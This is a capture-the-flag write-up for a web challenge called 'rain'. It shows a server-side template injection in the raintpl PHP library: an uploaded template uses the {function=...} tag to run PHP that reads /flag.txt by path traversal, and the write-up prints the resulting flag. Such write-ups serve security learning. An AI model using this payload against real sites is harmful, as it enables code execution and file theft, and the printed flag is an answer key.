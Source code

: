 # rain

[library.m0unt41n.ch/challenges/rain](https://library.m0unt41n.ch/challenges/rain) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

> _What better to do on a rainy day than to look at the weather report? But having_
> _it always look the same is boring and since its raining, you have a lot of time_
> _on your hands anyway... Whats the coolest design you can up with?_

Trivial PHP injection / path traversal in the `{function="..."}` feature of
[raintpl](https://github.com/feulf/raintpl).

# Analysis

```
docker build -t rain:latest .
docker run -p 8080:80 -it rain:latest
docker container exec -it $(docker ps -ql) /bin/bash
```

The app presents a static weather view, that can be customized by uploading a custom
template which gets rendered by [raintpl](https://github.com/feulf/raintpl).

Initial look:

*   The app runs as `www-data`.
*   The app is copied to `/var/www/html`. All files owned by root, but redable.
*   Docker container does `chmod 777 tpl/`. There is also writable `tmp/` directory.
*   The flag is in (readable) `/flag.txt`.
*   `raintpl::configure("path_replace", false);` looks curious.

`rain.tpl.class.php` is taken from
[github.com/feulf/raintpl](https://github.com/feulf/raintpl)
(most recent version 2.7.2)
with *no modification*. That project has been discontinued since, as well as
[github.com/feulf/raintpl3](https://github.com/feulf/raintpl3).
No obvious vulnerabilities found in either.

While the templates are not directly executed by PHP, going through
[documentation](https://github.com/feulf/raintpl3/wiki/Documentation-for-web-designers),
the following caught my eye:

> ### _{function="function name"}_
> 
> _Use this tag to execute a PHP function and print the result. You can pass strings,_
> _numbers and variables as parameters._
> 
> ***example***: *`{function="date('%Y')"}`*<br>
> ***output***: *`2013`*

Hang on. Could it be ***that*** easy? &#128512;

Let's create a trivial "template" that prints the flag and upload / test it:

```
{function="$f = fopen('../../../flag.txt', 'r'); echo fread($f, 256);"}
```

Lo and behold:

```
Resource id #8CTE24{1t5_4_r41ny_d4y_1922c058925a} 
```

---

## `CTE24{1t5_4_r41ny_d4y_1922c058925a}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)

